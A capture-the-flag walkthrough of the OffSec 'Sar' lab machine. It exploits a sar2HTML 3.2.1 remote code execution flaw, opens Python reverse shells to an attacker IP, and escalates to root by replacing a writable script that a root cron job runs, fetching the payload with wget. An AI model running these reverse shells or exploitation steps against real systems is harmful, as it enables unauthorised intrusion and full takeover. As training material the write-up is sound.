


# Sar

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Play
Difficulty: Easy
Community Rating: Easy
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 5
Lab Description:
This lab demonstrates how to exploit a remote code execution (RCE) vulnerability in a vulnerable 
version of sar2html. By discovering the application via the robots.txt file and leveraging the 
RCE, you gain an initial shell. Privilege escalation is achieved by exploiting a cronjob 
misconfiguration that allows overwriting a custom .sh script executed as root. The exercise 
focuses on RCE, cronjob abuse, and obtaining root access through writable scripts.
Released: 20 Jul 2020
```

Machine link: [https://portal.offsec.com/machine/sar-124/overview/details](https://portal.offsec.com/machine/sar-124/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ export TARGET_IP=192.168.197.35 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ sudo nmap -sC -sV -p- $TARGET_IP        
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-21 09:16 CET
Nmap scan report for 192.168.197.35
Host is up (0.034s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
|_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.66 seconds
```

We have two services running:

- OpenSSH 7.6p1 on port 22
- Apache httpd 2.4.29 on port 80

### Analyse the web service

Next, we analyse the contents of the web server.

Manually browsing to `http://192.168.197.35/` shows a `Apache2 Ubuntu Default Page`.

Doing some basic web enumeration with nmap, we find

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ nmap -v -p80 --script http-enum $TARGET_IP 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-21 09:21 CET
NSE: Loaded 1 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 09:21
Completed NSE at 09:21, 0.00s elapsed
Initiating Ping Scan at 09:21
Scanning 192.168.197.35 [4 ports]
Completed Ping Scan at 09:21, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 09:21
Completed Parallel DNS resolution of 1 host. at 09:21, 0.06s elapsed
Initiating SYN Stealth Scan at 09:21
Scanning 192.168.197.35 [1 port]
Discovered open port 80/tcp on 192.168.197.35
Completed SYN Stealth Scan at 09:21, 0.05s elapsed (1 total ports)
NSE: Script scanning 192.168.197.35.
Initiating NSE at 09:21
Completed NSE at 09:21, 3.53s elapsed
Nmap scan report for 192.168.197.35
Host is up (0.033s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /robots.txt: Robots file
|_  /phpinfo.php: Possible information file

NSE: Script Post-scanning.
Initiating NSE at 09:21
Completed NSE at 09:21, 0.00s elapsed
Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.92 seconds
           Raw packets sent: 5 (196B) | Rcvd: 2 (72B)
```

We have a `robots.txt` file

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ curl http://$TARGET_IP/robots.txt 
sar2HTML
```

and a `phpinfo.php` file



The `sar2HTML` page gives us a version number (`3.2.1`) to research



### Search for an exploit and try it out

Let's see if there are any available exploits

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ searchsploit sar2html           
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution                                                                                                                              | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution                                                                                                                                  | php/webapps/47204.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ searchsploit -m 49344
  Exploit: sar2html 3.2.1 - 'plot' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49344
     Path: /usr/share/exploitdb/exploits/php/webapps/49344.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /mnt/hgfs/OffSec_PG/PG_Play/Easy/Sar/49344.py


┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ head -n 20 49344.py 
# Exploit Title: sar2html 3.2.1 - 'plot' Remote Code Execution
# Date: 27-12-2020
# Exploit Author: Musyoka Ian
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Ubuntu 18.04.1

#!/usr/bin/env python3

import requests
import re
from cmd import Cmd

url = input("Enter The url => ")

class Terminal(Cmd):
    prompt = "Command => "
    def default(self, args):
        exploiter(args)
```

We try out the exploit

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ python 49344.py                        
Enter The url => http://192.168.197.35/sar2HTML
Command => id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Command => 
```

We have command execution.

### Get a reverse shell

But we ofcourse want a reverse shell.

We start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ nc -lvnp 12345                             
listening on [any] 12345 ...

```

and launch a python reverse shell

```bash
Command => which python

Command => which python3
/usr/bin/python3

Command => python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.201",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

```

Back at the netcat listener, we now have a connection

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ nc -lvnp 12345                             
listening on [any] 12345 ...
connect to [192.168.45.201] from (UNKNOWN) [192.168.197.35] 58482

www-data@sar:/var/www/html/sar2HTML$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@sar:/var/www/html/sar2HTML$ 
```

### Get the user flag

Now we can start looking for the user flag

```bash
www-data@sar:/var/www/html/sar2HTML$ cd /home
cd /home
www-data@sar:/home$ ls -la
ls -la
total 16
drwxr-xr-x  3 root     root     4096 Jul 22  2020 .
drwxr-xr-x 24 root     root     4096 Mar 10  2020 ..
-rw-r--r--  1 www-data www-data   33 Feb 21 13:45 local.txt
drwxr-xr-x 17 love     love     4096 Jul 24  2020 love
www-data@sar:/home$ cat local.txt
cat local.txt
4<REDACTED>e
www-data@sar:/home$ 
```

Nice, so far so good.

### Enumeration for privesc

We now enumerate the system for privilege escalation opportunities.

Checking cron jobs we find

```bash
www-data@sar:/home/love$ crontab -l
crontab -l
no crontab for www-data
www-data@sar:/home/love$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
www-data@sar:/home/love$ 
```

Maybe we can exploit the `finally.sh` script?

### Analyse the cron job

Let's analyse the script and see if we can modify it

```bash
www-data@sar:/home/love$ cd /var/www/html
cd /var/www/html
www-data@sar:/var/www/html$ ls -la
ls -la
total 40
drwxr-xr-x 3 www-data www-data  4096 Jul 24  2020 .
drwxr-xr-x 4 www-data www-data  4096 Jul 24  2020 ..
-rwxr-xr-x 1 root     root        22 Oct 20  2019 finally.sh
-rw-r--r-- 1 www-data www-data 10918 Oct 20  2019 index.html
-rw-r--r-- 1 www-data www-data    21 Oct 20  2019 phpinfo.php
-rw-r--r-- 1 root     root         9 Oct 21  2019 robots.txt
drwxr-xr-x 4 www-data www-data  4096 Oct 20  2019 sar2HTML
-rwxrwxrwx 1 www-data www-data    30 Jul 24  2020 write.sh
www-data@sar:/var/www/html$ cat finally.sh
cat finally.sh
#!/bin/sh

./write.sh
www-data@sar:/var/www/html$ cat write.sh
cat write.sh
#!/bin/sh

touch /tmp/gateway
www-data@sar:/var/www/html$ 
```

The `finally.sh` script isn't writable to us, bu it calls `write.sh` which is!

### Get a root reverse shell

Let's create another reverse shell back at our Kali machine

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ vi write.sh   

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ cat write.sh   
#!/bin/bash

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.201",12346));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

```

share it via HTTP

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ python -m http.server                  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

start another netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ nc -lvnp 12346
listening on [any] 12346 ...

```

and download the file to the target machine

```bash
www-data@sar:/var/www/html$ rm write*
rm write*
www-data@sar:/var/www/html$ wget http://192.168.45.201:8000/write.sh
wget http://192.168.45.201:8000/write.sh
--2026-02-21 15:11:58--  http://192.168.45.201:8000/write.sh
Connecting to 192.168.45.201:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 244 [text/x-sh]
Saving to: 'write.sh'

write.sh            100%[===================>]     244  --.-KB/s    in 0s      

2026-02-21 15:11:58 (1.48 MB/s) - 'write.sh' saved [244/244]

www-data@sar:/var/www/html$ cat write.sh
cat write.sh
#!/bin/bash

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.201",12346));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

www-data@sar:/var/www/html$ chmod +x write.sh
chmod +x write.sh
www-data@sar:/var/www/html$ ls -l write.sh
ls -l write.sh
-rwxr-xr-x 1 www-data www-data 244 Feb 21 15:07 write.sh
www-data@sar:/var/www/html$ 
```

Now we wait for the connection (could take up to 5 minutes)

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Sar]
└─$ nc -lvnp 12346
listening on [any] 12346 ...
connect to [192.168.45.201] from (UNKNOWN) [192.168.197.35] 56042
root@sar:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
root@sar:/var/www/html# 
```

### Get the root flag

Finally, we can get the root flag

```bash
root@sar:/var/www/html# cd /root
cd /root
root@sar:~# ls -l
ls -l
total 8
-rw-r--r-- 1 root root 33 Feb 21 13:46 proof.txt
-rw-r--r-- 1 root root 32 Jul 14  2020 root.txt
root@sar:~# cat proof.txt
cat proof.txt
0<REDACTED>7
root@sar:~# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [chmod - Linux manual page](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [cron - Wikipedia](https://en.wikipedia.org/wiki/Cron)
- [crontab(1) - Linux manual page](https://man7.org/linux/man-pages/man1/crontab.1.html)
- [crontab(5) - Linux manual page](https://man7.org/linux/man-pages/man5/crontab.5.html)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [head - Linux manual page](https://man7.org/linux/man-pages/man1/head.1.html)
- [http.server - Python](https://docs.python.org/3/library/http.server.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [Reverse Shell Generator - Homepage](https://www.revshells.com/)
- [robots.txt - Wikipedia](https://en.wikipedia.org/wiki/Robots.txt)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [wget - Linux manual page](https://man7.org/linux/man-pages/man1/wget.1.html)
